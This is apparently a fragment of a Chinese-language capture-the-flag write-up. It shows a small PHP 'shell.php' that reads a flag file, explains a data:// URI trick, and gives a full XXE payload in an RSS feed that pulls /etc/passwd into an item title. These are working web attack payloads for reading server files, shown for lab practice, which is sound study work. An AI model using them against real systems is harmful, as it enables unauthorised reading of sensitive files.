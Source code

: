 shell.php

```
<?php
echo file_get_contents('/flag');
```



## rss



data protocol format:

```
data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

说是php对mine type不敏感, 那么可以这样子写

```
data://baidu.com/plain;base64,xxxxxxxxx==
```

然后看rss的定义:

> What is RSS?
>
> It is a format to share data, defined in the [1.0 version](https://www.xul.fr/en-xml.php) of XML. You can deliver information in this format et one can get this information, and information from other various sources, in this format. Information provided by a website in an XML file is called an RSS feed.
> Recent browsers can read directly RSS files, but a special **RSS reader** or **aggregator** may be used too.

所以所谓的rss就是xml.

尝试测试

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>http://example.com</link>
        <description>a post</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```
